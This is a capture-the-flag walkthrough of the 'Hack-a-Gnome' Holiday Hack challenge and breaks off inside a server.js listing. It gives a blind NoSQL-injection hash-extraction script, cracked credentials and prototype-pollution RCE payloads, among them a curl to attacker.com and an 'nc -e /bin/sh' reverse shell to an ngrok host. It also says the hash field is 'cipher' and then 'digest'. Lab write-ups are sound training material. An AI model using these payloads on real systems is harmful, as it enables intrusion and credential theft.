# Hack-a-Gnome


**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Hack-a-Gnome](https://hhc25-smartgnomehack-prod.holidayhackchallenge.com?id=c8196dc2-72fe-40bd-9878-13154a1de00a){:target="_blank" rel="noopener"}<br/>
**Area**: The Datacenter<br/> 
**In-game avatar**: Chris Davis


## Hints
??? tip "Hint 1"
    There might be a way to check if an attribute IS_DEFINED on a given entry. This could allow you to brute-force possible attribute names for the target user's entry, which stores their password hash. Depending on the hash type, it might already be cracked and available online where you could find an online cracking station to break it.
??? tip "Hint 2"
    Sometimes, client-side code can interfere with what you submit. Try proxying your requests through a tool like Burp Suite or OWASP ZAP. You might be able to trigger a revealing error message.
??? tip "Hint 3"
    I actually helped design the software that controls the factory back when we used it to make toys. It's quite complex. After logging in, there is a front-end that proxies requests to two main components: a backend Statistics page, which uses a per-gnome container to render a template with your gnome's stats, and the UI, which connects to the camera feed and sends control signals to the factory, relaying them to your gnome (assuming the CAN bus controls are hooked up correctly). Be careful, the gnomes shutdown if you logout and also shutdown if they run out of their 2-hour battery life (which means you'd have to start all over again).
??? tip "Hint 4"
    Nice! Once you have command-line access to the gnome, you'll need to fix the signals in the canbus_client.py file so they match up correctly. After that, the signals you send through the web UI to the factory should properly control the smart-gnome. You could try sniffing CAN bus traffic, enumerating signals based on any documentation you find, or brute-forcing combinations until you discover the right signals to control the gnome from the web UI.
??? tip "Hint 5"
    Oh no, it sounds like the CAN bus controls are not sending the correct signals! If only there was a way to hack into your gnome's control stats/signal container to get command-line access to the smart-gnome. This would allow you to fix the signals and control the bot to shut down the factory. During my development of the robotic prototype, we found the factory's pollution to be undesirable, which is why we shut it down. If not updated since then, the gnome might be running on old and outdated packages.
??? tip "Hint 6"
    Once you determine the type of database the gnome control factory's login is using, look up its documentation on default document types and properties. This information could help you generate a list of common English first names to try in your attack.

## Objective

!!! question "Request"
    Davis in the Data Center is fighting a gnome army—join the hack-a-gnome fun.

??? quote "Chris Davis"
    Hey, I could really use another set of eyes on this gnome takeover situation.<br/>

    Their systems have multiple layers of protection now - database authentication, web application vulnerabilities, and more!<br/>

    But every system has weaknesses if you know where to look.<br/>

    If these gnomes freeze the whole neighborhood, forget about hiking or kayaking—everything will be one giant ice rink. And trust me, miniature war gaming is a lot less fun when your paint freezes solid.<br/>

    Ready to help me turn one of these rebellious bots against its own kind?<br/>

## High-Level Steps

1. **Compromise Access** – Enumerate users and exploit NoSQL injection to obtain valid credentials.
2. **Escalate Control** – Use prototype pollution to achieve remote command execution.
3. **Take Over Hardware** – Modify CAN bus commands to fully control the smart gnome.



## Solution
- Find a user we can login with
    - Found /userAvailable indicating if a given user exists or not
    - brute force /userAvailable with common names to get the users
- Login with the user
    - Find the sql injection in /userAvailable
    - Brute force the password hash
    - Crack the hash to get the password for the user
- Get the canbus_client.py from the remote machine
    - Get RCE on the remote machine using the prototype injection
    - Download the canbus_client.py and README.md from the remote machine
- Control the gnome move with modified canbus_client.py
    - Bruteforce the command map with different hex ranges
    - Control the gnome with correct command map


On the register page, when we put the username, we see /userAvailable endpoint which takes the endpoint and responds if the username is available or not. <br/>
If username is available, Its new user.<br/>
If username is not available, Its existing user.


So we brute force with common names. <br/>
Below ignores response for names which dont include in the response body.<br/>
"available":true

```py
ffuf -w /usr/share/seclists/Usernames/Names/names.txt -u 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=FUZZ&id=5a219bfd-8362-4ea9-80ff-25e5762d78f4' -fr \"available\":true -v -rate 25
```
Two existing user names found:
- bruce
- harold


We can verify this via burp suite.<br>


Now we find a SQL injection vulnerability in /userAvailable <br/>
All my attempts of using standard SQL injection attempts fail.
e.g.
```bruce' OR 1=1 --``` or URL encoded ```bruce%27%20OR%201%3D1%20--```
so, use a standard NoSQL injection payload
```bruce{"$ne":null}``` or URL encoded ```bruce%7B%22%24ne%22%3Anull%7D```

and we see ```Microsoft.Azure.Documents.Common/2.14.0``` in the response.

Microsoft.Azure.Documents.Common is an internal .NET library used by Azure Cosmos DB (formerly DocumentDB). So the database used here is the Azure Cosmos DB.

The below hint is useful <br/>
??? hint
    There might be a way to check if an attribute IS_DEFINED on a given entry. This could allow you to brute-force possible attribute names for the target user's entry, which stores their password hash.

We use [IS_DEFINED](https://docs.azure.cn/en-us/cosmos-db/query/is-defined) to find the column name which may contain the password (hashed/encrypted/plain text, we dont know).

Tried a lot of words:
hash, password_hash, hash, digest, token, secret, password, checksum, signature, auth, credential
in the {placeholder}<br/>
payload ```bruce" AND IS_DEFINED(c.{placeholder}) -- '``` <br/>
URL encoded ```bruce%22%20AND%20IS_DEFINED(c.{placeholder})%20--%20%27```<br/>

Every single one of then responded with ```{"available":true}``` except **"cipher"** responded with ```{"available":false}```<br/>

payload ```bruce" AND IS_DEFINED(c.cipher) -- '``` <br/>
URL encoded ```bruce%22%20AND%20IS_DEFINED(c.cipher)%20--%20%27```<br/>



This confirms the name of field/column containing the password hash is "digest". <br/>

At this point we dont know what the format it. So we start with easier one - the MD5.
MD5 has exactly 32 characters. So, we send each character possible in an MD5 hash [character a-f and number 0-9] to the /userAvailable looking for that character in every position in the "digest" field.
If we get {available:false}, It means thats the character in that position in the password hash.
Since MD5 hash max length is 32 characters, we loop 32 times.

??? tip "find_hash_md5.py"
    ```py title="find_hash_md5.py"
        import requests
        import string
        import urllib.parse

        TARGET_URL = "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable" 
        ID = "5a219bfd-8362-4ea9-80ff-25e5762d78f4"
        TARGET_USERNAME = "bruce"
        MAX_LENGTH = 32  # Adjust based on hash length

        # In general MD5 is in hex format for passwords so we can limit to  a-f and 0-9
        CHARSET = "abcdef0123456789"

        # Response with "available:false" indicates match
        def is_match(response):
            return '"available":false' in response.text.lower()

        # Extracts the password hash
        def extract_digest():
            result = ""
            for position in range(MAX_LENGTH):
                found = False
                for ch in CHARSET:
                    injection = f'{TARGET_USERNAME}" AND SUBSTRING(c.digest,{position},1)="{ch}" -- '
                    encoded_username = urllib.parse.quote(injection)

                    url = f"{TARGET_URL}?username={encoded_username}&id={ID}"
                    #print(f"position {position} character {ch}")
                    try:
                        response = requests.get(url, timeout=5)
                        #print(response.text)
                    except Exception as e:
                        print(f"[!] Request failed: {e}")
                        continue

                    if is_match(response):
                        result += ch
                        print(f"[+] Char at pos {position}: {ch}")
                        found = True
                        break

                if not found:
                    print(f"[!] No match at position {position}, assuming end of digest.")
                    break

            return result

        # Running the password hash extractor
        if __name__ == "__main__":
            print("[*] Starting blind digest extraction for user:", TARGET_USERNAME)
            digest = extract_digest()
            print("\n Extracted digest:", digest)

    ```
For the user "bruce", the hash found was 
```
d0a9ba00f80cbc56584ef245ffc56b9e
```


We use Crackstation.net to get the password for the hash.
The password is ```oatmeal12```


Now we can login using below credentials. <br/>

user     : ```bruce```
password : ```oatmeal12```

Upon login, we see stats on the right side and the Gnome control interface on the right side.<br/>


Any attempt to move the Gnome on the Nome control interface shows the error on the UI.<br/>


The goal must be to move the Gnome to reach the lever on the top left side.

We see "Update Name" button clicking on which opens a dialog to update the name.


The update action updates the name.


The update is reflected in the /stats page


There was a hint indicating **protype pollution** in the stats page which uses a template.
??? quote "Prototype pollution hint"
    A backend Statistics page, which uses a per-gnome container to render a template with your gnome's stats.
    .....
    During my development of the robotic prototype, we found the factory's pollution to be undesirable, which is why we shut it down.

  
Rubén Santos García has an awesome blog post on [Prototype pollution](https://www.kayssel.com/newsletter/issue-24/) with a section specifically dedicated to RCE on template engine using prototype pollution.


```
// Pollution payload
{
  "__proto__": {
    "outputFunctionName": "x;process.mainModule.require('child_process').execSync('curl attacker.com?data=$(whoami)');var __output"
  }
}
```

The payload which goes is something like this:
```
{"action":"update","key":"settings","subkey":"name","value":"poiuy"}
```
We change it below following the payload in the blog to set the name property with that payload.
```
{
    "action":"update", 
    "key":"__proto__", 
    "subkey":"outputFunctionName", "value":"test1;process.mainModule.require('child_process').execSync('$(whoami)');test2"
}
```
We send the below URL encoded version to the endpoint /ctrlsignals?message=
```
%7B%22action%22%3A%22update%22%2C%22key%22%3A%22__proto__%22%2C%22subkey%22%3A%22outputFunctionName%22%2C%20%22value%22%3A%22test1%3Bprocess.mainModule.require%28%27child_process%27%29.execSync%28%27%24%28whoami%29%27%29%3Btest2%22%7D
```
We are now able to save the value.


Now that the template is saved, browsing the ```/stats``` page will render the template and will execute that commend.<br/>
We can see ```root``` as the output of ```whoami``` in the request.


Saving the request with ```ls``` and then browsing the /stats page shows the file listing.<br/>


This proves the app has the remote command execution via prototype pollution.
We can then get a reverse shell.

Set up ngrok on tcp and local netcat to get the reverse shell.


We update the above payload with the reverse shell payload. <br/>
So now when the code executes, the app server would call ngrok which would spawn a reverse shell on the netcat on the local kalibox.
``` 
{"action":"update", "key":"__proto__", "subkey":"outputFunctionName", "value":"test1;process.mainModule.require('child_process').execSync('$(nc -e /bin/sh 4.tcp.ngrok.io 11012)');test2"}
```

```py title="URL encoded version"
%7B%22action%22%3A%22update%22%2C%20%22key%22%3A%22__proto__%22%2C%20%22subkey%22%3A%22outputFunctionName%22%2C%20%22value%22%3A%22test1%3Bprocess.mainModule.require%28%27child_process%27%29.execSync%28%27%24%28nc%20-e%20%2Fbin%2Fsh%204.tcp.ngrok.io%2013070%29%27%29%3Btest2%22%7D
```
The payload is updated.


Accessing the /stats page gives us the reverse shell.<br/>


Upgrade the shell and copy the contents of canbus_client.py.
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


There are two important files in the remote server - canbus_client.py and README.md.<br/>
canbus_client.py has the mapping of the keystrokes [up, down, left, right] with the CAN IDs.<br/>
The mapping, however is not correct.

??? tip "canbus_client.py"
    ```py title="canbus_client.py"
        #!/usr/bin/python3
        import can
        import time
        import argparse
        import sys
        import datetime # To show timestamps for received messages

        # Define CAN IDs (I think these are wrong with newest update, we need to check the actual device documentation)
        COMMAND_MAP = {
            "up": 0x656,
            "down": 0x657,
            "left": 0x658,
            "right": 0x659,
            # Add other command IDs if needed
        }
        # Add 'listen' as a special command option
        COMMAND_CHOICES = list(COMMAND_MAP.keys()) + ["listen"]

        IFACE_NAME = "gcan0"

        def send_command(bus, command_id):
            """Sends a CAN message with the given command ID."""
            message = can.Message(
                arbitration_id=command_id,
                data=[], # No specific data needed for these simple commands
                is_extended_id=False
            )
            try:
                bus.send(message)
                print(f"Sent command: ID=0x{command_id:X}")
            except can.CanError as e:
                print(f"Error sending message: {e}")

        def listen_for_messages(bus):
            """Listens for CAN messages and prints them."""
            print(f"Listening for messages on {bus.channel_info}. Press Ctrl+C to stop.")
            try:
                # Iterate indefinitely over messages received on the bus
                for msg in bus:
                    # Get current time for the timestamp
                    timestamp = datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')[:-3] # Milliseconds precision
                    print(f"{timestamp} | Received: {msg}")
                    # You could add logic here to filter or react to specific messages
                    # if msg.arbitration_id == 0x100:
                    #    print("  (Noise message)")

            except KeyboardInterrupt:
                print("\nStopping listener...")
            except Exception as e:
                print(f"\nAn error occurred during listening: {e}")

        def main():
            parser = argparse.ArgumentParser(description="Send CAN bus commands or listen for messages.")
            parser.add_argument(
                "command",
                choices=COMMAND_CHOICES,
                help=f"The command to send ({', '.join(COMMAND_MAP.keys())}) or 'listen' to monitor the bus."
            )
            args = parser.parse_args()

            try:
                # Initialize the CAN bus interface
                bus = can.interface.Bus(channel=IFACE_NAME, interface='socketcan', receive_own_messages=False) # Set receive_own_messages if needed
                print(f"Successfully connected to {IFACE_NAME}.")
            except OSError as e:
                print(f"Error connecting to CAN interface {IFACE_NAME}: {e}")
                print(f"Make sure the {IFACE_NAME} interface is up ('sudo ip link set up {IFACE_NAME}')")
                print("And that you have the necessary permissions.")
                sys.exit(1)
            except Exception as e:
                print(f"An unexpected error occurred during bus initialization: {e}")
                sys.exit(1)

            if args.command == "listen":
                listen_for_messages(bus)
            else:
                command_id = COMMAND_MAP.get(args.command)
                if command_id is None: # Should not happen due to choices constraint
                    print(f"Invalid command for sending: {args.command}")
                    bus.shutdown()
                    sys.exit(1)
                send_command(bus, command_id)
                # Give a moment for the message to be potentially processed if listening elsewhere
                time.sleep(0.1)

            # Shutdown the bus connection cleanly
            bus.shutdown()
            print("CAN bus connection closed.")

        if __name__ == "__main__":
            main()

    ```

??? tip "server.js"
    ```
    require('dotenv').config();
    const express = require('express');
    const dns = require('dns'); // Import dns module
    // Remove http, ws, path, url imports related to WebSockets
    const path = require('path'); // Keep path for file serving
    const { exec } = require('child_process'); // Import exec

    const app = express();

    // --- Environment Variables & Initial Setup ---
    const PARENTID = process.env.PARENTID;
    let allowedIps = null; // Initialize allowed IPs

    if (PARENTID) {
